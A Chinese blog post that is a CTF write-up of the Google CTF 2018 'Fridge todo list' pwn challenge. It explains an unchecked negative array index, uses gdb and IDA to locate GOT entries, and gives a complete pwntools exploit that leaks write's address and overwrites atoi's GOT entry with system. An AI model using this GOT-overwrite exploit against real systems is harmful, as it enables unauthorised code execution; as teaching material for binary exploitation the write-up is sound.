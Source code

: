 ```yaml
---
id: 790
layout: post
title: '二进制安全之栈溢出（十一）'
date: 2018-11-09 12:46:07
author: virusdefender
tags: 安全 CTF
---
```


本文是 plt 和 got 表相关的漏洞利用实例，是 [Google CTF](https://github.com/BOAKGP/CTF-Writeups/tree/master/Google%20CTF%202018%20Quals%20Beginners%20Quest/Fridge%20todo%20list) 中的一道题，题目给了源码和 binary。

通过阅读代码，可以发现

```clike
int idx = read_int();
if (idx > TODO_COUNT) {
    puts(OUT_OF_BOUNDS_MESSAGE);
    return;
}
printf("What's your TODO? ");
fflush(stdout);
read_line(&todos[idx*TODO_LENGTH], TODO_LENGTH);
```

这里虽然检查了 `idx` 最大不能超过某个范围，但是没有检查小于零的情况，所以如果构造小于零的 `idx`，就可以读取比 `todos` 数组地址还小的位置的内存了，同理，在 `write_all` 函数中，也可以任意的去写这个位置的内存。

`todos` 是一个全局变量，所以它的内存地址是确定的，是在 bss 段。因为 `todos` 的索引会乘以 `TODO_LENGTH`，所以内存的读取是跳跃的，每次都相差 48 个字节。

使用 gdb 调试，`set follow-fork-mode parent` 然后 `b main` `p &todos` 可以看到内存地址。

```
gdb-peda$ p &todos
$1 = (<data variable, no debug info> *) 0x555555757140 <todos>
```

在 IDA 中，也可以看到 `todos` 和 `got` 表距离也非常近，写一个小程序算一下

![](https://storage.virusdefender.net/blog/images/790/1.png)

```python
base = 0x203140
for i in range(10):
    print hex(base - i * 48)
```

结合 IDA 的结果和计算输出的结果，可以标记出来一些有用的数据

```
0x203140 -> todos
0x203110
0x2030e0
0x2030b0
         0x203088（非整数倍） -> atoi
0x203080 -> open
0x203050 -> strncat
0x203020 -> write
0x202ff0
0x202fc0
0x202f90
```

比如先读一下 `write` 的地址

```
[-------------------------------------code-------------------------------------]
   0x555555554900 <puts@plt>:	jmp    QWORD PTR [rip+0x202712]        # 0x555555757018
   0x555555554906 <puts@plt+6>:	push   0x0
   0x55555555490b <puts@plt+11>:	jmp    0x5555555548f0
=> 0x555555554910 <write@plt>:	jmp    QWORD PTR [rip+0x20270a]        # 0x555555757020
 | 0x555555554916 <write@plt+6>:	push   0x1
 | 0x55555555491b <write@plt+11>:	jmp    0x5555555548f0
 | 0x555555554920 <strlen@plt>:	jmp    QWORD PTR [rip+0x202702]        # 0x555555757028
 | 0x555555554926 <strlen@plt+6>:	push   0x2
 |->   0x555555554916 <write@plt+6>:	push   0x1
       0x55555555491b <write@plt+11>:	jmp    0x5555555548f0
       0x555555554920 <strlen@plt>:	jmp    QWORD PTR [rip+0x202702]        # 0x555555757028
       0x555555554926 <strlen@plt+6>:	push   0x2
                                                                  JUMP is taken
[------------------------------------stack-------------------------------------]
```

重新画一下数据分布图

```
0x555555757140 -> todos
0x555555757110
0x5555557570e0
0x5555557570b0
0x555555757080
0x555555757050
0x555555757020 => 0x555555554916 -> write@plt+6
```

由以前的知识就知道 `0x555555757020` 就是 `write` 的 got 表的地址，减去刚才已知的 `todos` 的位置，正好是 `(0x555555757020 - 0x555555757140) / 48 == -6`。

可以先构造一个读取 `write` 的 got 表地址 exp

```python
from pwn import *
from struct import unpack

proc = process("./todo")
proc.send("admin\n")
proc.readuntil(">")
proc.send("2\n")
proc.readuntil("read?")
proc.send("-6\n")
res = proc.readuntil("Hi admin,").splitlines()[0]
write_addr = res.split(':', 1)[1][1:].ljust(8, chr(0))
write_addr = unpack("<Q", write_addr)[0]

print hex(write_addr)
```

其中 `<Q` 是指定按照小端序读取8个字节作为一个数字。因为这时候 write 函数还没有被解析，所以 got 表中的 `write` 还是指向 `write@plt+6` 的。

剩下的步骤就简单多了，在 `store_todo` 函数中，可以将我们的输入写入 got 表的位置，所以应该是将 `system@plt` 的地址写入接下来要运行的参数可控的函数的 got 表的位置。发现 `atoi` 函数是一个选择，函数的偏移是确定的，`system@plt` - `write@plt+6` 也就是 `0x555555554940 - 0x555555554916 = 0x2a`（`atoi@plt` 的地址可以使用 `info addr atoi@plt` 获取，是在偏移 -4 再加 8 个字节）。

完整 exp 如下

```python
from pwn import *
from struct import unpack, pack

proc = process("./todo")
proc.send("admin\n")
proc.readuntil(">")
proc.send("2\n")
proc.readuntil("read?")
proc.send("-6\n")
res = proc.readuntil("Hi admin,").splitlines()[0]
write_addr = res.split(':', 1)[1][1:].ljust(8, chr(0))
write_addr = unpack("<Q", write_addr)[0]

print hex(write_addr)

proc.send("3\n")
proc.readuntil("entry?")
proc.send("-4\n")
proc.readuntil("TODO?")
proc.send("AAAAAAAA" + pack("<Q", write_addr + 0x2a)[:8] + "\n")

proc.interactive()
```

参考

  - https://hackso.me/google-ctf-beginners-quest-part-2/